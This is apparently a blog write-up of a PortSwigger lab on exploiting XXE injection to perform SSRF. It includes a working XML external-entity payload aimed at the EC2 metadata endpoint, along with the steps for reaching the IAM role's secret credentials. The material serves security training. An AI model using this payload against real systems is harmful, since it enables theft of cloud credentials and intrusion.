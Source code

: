 # Exploiting XXE to perform SSRF attacks | Dec 25, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf), you'll learn: Exploiting XXE to perform SSRF attacks! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the [XXE](https://portswigger.net/web-security/xxe) vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225053702.png)

In the previous lab, we found that there is an **XXE injection vulnerability in the "Check stock" feature**, which parses XML input and **returns any unexpected values in the response**.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225053748.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225053811.png)

**Original XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225053821.png)

**Invalid XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>a</productId>
    <storeId>1</storeId>
</stockCheck>
```

**In XML, we can define an enternal entity and using keyword `SYSTEM` to make a request to any URL:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

**Let's try to send that XXE payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225054445.png)

Hmm... `latest`?

**After looking at the [AWS's EC2 documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html), we can retrieve security credentials via:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225054631.png)

**Let's modify our payload's URL!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225054652.png)

**Found IAM role `admin`. Let's append that to our URL:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225054743.png)

Boom! We found that!

# What we've learned:

1. Exploiting XXE to perform SSRF attacks